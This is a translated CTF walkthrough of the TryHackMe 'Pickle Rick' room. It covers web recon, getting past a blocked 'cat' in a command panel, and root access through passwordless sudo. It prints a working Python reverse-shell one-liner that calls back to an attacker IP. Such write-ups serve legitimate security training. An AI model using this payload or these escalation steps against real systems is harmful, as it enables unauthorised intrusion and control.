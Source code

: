# 泡菜里克-THM

> 原文：<https://infosecwriteups.com/picke-rick-thm-e8fb33d1f259?source=collection_archive---------4----------------------->

## 侦察:

让我们首先在给定的机器上进行 nmap 扫描，以查看开放的端口。

![](img/07b44db103f6a6e3ebbcbe9ca523726f.png)

导航到端口 80，查看源代码，我们得到用户名: *R1ckRul3s。*

在运行 gobuster 时，我们可以看到有一个名为 assets 的目录。让我们去那里。

![](img/ba0c2f24f2a7acdffa84e7b99f3d2ab6.png)

我们也去/robots.txt 看看能找到什么

![](img/7aef2e8649c865727365004d944b4a98.png)

Wubbalubbadubdub。无红利

Gobuster 结果:

![](img/e86ecaf1a8af4a03193ae845c0e8d5c5.png)

让我们尝试使用用户名和作为密码的字符串登录。

![](img/5e555ce7c83e401864144795ce81b080.png)

我们遇到了一个可以执行命令的面板，而“cat”却无法工作！

![](img/8b5b38607fff13f9b2b9527b25b18ce2.png)

所以让我们来欺骗一下，用 tac 来代替

在 clue.txt 上使用 tac 会给出如下输出:

```
Look around the file system for the other ingredient.
```

```
tac Sup3rS3cretPickl3Ingred.txt
```

运行这个程序将得到第一个成分作为输出。

现在，让我们使用 python3 脚本获得系统的反向外壳

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

好了，我们有了反向外壳。

![](img/3aecbb9c125b9ea9225e354ded10069a.png)

使用以下命令使外壳具有交互性

```
/bin/bash -ki
```

在这个 shell 中获取 linpeas.sh 文件并运行它，您将看到 sudo 可以运行任何命令/工具，而不需要密码。或者运行 sudo -l 来查看权限

运行:

```
sudo bash
```

要获得根访问权限，瞧，通过导航到用户主目录来搜索第二个和第三个要素。

约翰·哈蒙德有一个很酷的项目，可以更容易地把文件从你的系统转移到机器上。不用设置 netcat 之类的东西就可以查看这个:[https://github . com/John Hammond/poor-mans-pentest/blob/master/upload _ file _ NC . sh](https://github.com/JohnHammond/poor-mans-pentest/blob/master/upload_file_nc.sh)。

继续黑！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！